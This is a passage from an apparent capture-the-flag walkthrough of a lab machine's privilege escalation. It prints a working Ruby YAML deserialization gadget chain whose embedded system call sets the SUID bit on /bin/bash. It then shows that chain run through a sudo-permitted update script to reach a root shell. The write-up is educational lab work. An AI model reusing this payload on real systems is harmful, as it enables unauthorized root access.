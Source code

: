 https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

```
henry@precious:~$ nano dependencies.yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```
Change the git_set `sleep 600 to chmod +s /bin/bash`.
```
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
henry@precious:~$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
```
We are into the root/administrator machine and we got the root for this machine.

Thank you for reading 👋. 

---

